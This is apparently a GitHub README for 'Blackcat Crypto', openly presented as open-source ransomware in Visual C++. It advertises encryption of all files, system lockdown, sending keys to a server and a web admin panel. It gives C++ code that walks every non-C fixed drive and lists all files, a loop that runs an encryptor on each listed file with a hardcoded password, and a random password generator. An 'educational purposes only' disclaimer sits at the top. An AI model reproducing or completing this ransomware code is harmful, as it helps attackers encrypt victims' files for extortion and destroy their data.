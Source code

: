 #### DISCLAIMER : OUR TOOLS ARE FOR EDUCATIONAL PURPOSES ONLY. DON'T USE THEM FOR ILLEGAL ACTIVITIES. YOU ARE THE ONLY RESPONSABLE FOR YOUR ACTIONS! OUR TOOLS ARE OPEN SOURCE WITH NO WARRANTY AND AS ARE.

<img src="logon.png" alt="logo">

# Cryptolocker

Blackcat Crypto is open source Crypto-Locker. Blackcat Crypto is developed in Visual C++. It has features encrypt all file, lock down the system and send keys back to the server. Multi-threaded functionality helps to this tool make encryption faster.

Using a powerful 256-bit encryption algorithm, Once a file is encrypted, File is completely useless without the password. It simply cannot be read.

## Features

1. Strong AES Encryption. (Unbreakable)
2. Lockdown System Functionailty.
3. Multi-Thread Encryption.
4. Powerful Web Admin Interface

<img src="ezgif-1-e99b3d2b6b39.gif" >

## Step 1 (Fetch files)

Getting all files from all drive to encrypting them.

Here is Visual C++ program get all list directory & files in drive and store path in text file for encryption later use. I use Boost C++ libraries to get all files list. Please first setup Boost libraries to compile program.

```
#include <boost/config/warning_disable.hpp>
#include <boost/filesystem.hpp>
#include <iostream>
#include <iterator>
#include <stdio.h>
#include <windows.h>

using namespace std;

fstream out_file("data.txt", ios::out);

#define MAX 256

int main(int argc, char* argv[]) {

	int dr_type = 99;
	char dr_avail[MAX];
	char *temp = dr_avail;

	/* 1st we fill the buffer */
	GetLogicalDriveStrings(MAX, dr_avail);
	while (*temp != NULL) { // Split the buffer by null
		dr_type = GetDriveType(temp);

		char skip[10] = "C:\\";

		if (dr_type == 3 && temp[0] != 'C') {

			boost::system::error_code dir_error;

			for (boost::filesystem::recursive_directory_iterator end, dir(temp, dir_error); dir != end; dir.increment(dir_error)) {
				if (dir_error.value()) {
					cerr << "Error accessing file: " << dir_error.message() << endl;
				}
				else {
					cout << dir->path() << endl;
					out_file << dir->path() << "\n";
				}
			}
		}
		temp += lstrlen(temp) + 1;
	}
	out_file.close();
	system("pause");
	
```

## Step 2 (Encrypt files)

Here firstly I get every file path from "data.txt" line by line and send to this crypy tool with type encryption and password. you can also embed all this program in upper loop for getting path and encrypting data recursively.

```
out_file.open("data.txt", ios::in);
	string line;
	while (out_file.good()) {
		getline(out_file, line);
		cout << line << endl;
		std::string cmmd = "crpt.exe -e -p 4321 ";
		cmmd += line;
		system(cmmd.c_str());
	}
```

## Step 3 (Create Long String Complex Password Function)

Send length to function and function return complex long generated password which you can use for encryption.

```
string RandomString(int len)
{
	srand(time(0));
	string str = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz";
	string newstr;
	int pos;
	while (newstr.size() != len) {
		pos = ((rand() % (str.size() - 1)));
		newstr += str.substr(pos, 1);
	}
	return newstr;
}
```

# Currently in Development....
# Happy Cyber Security.....Happy Open Source.......
# :)
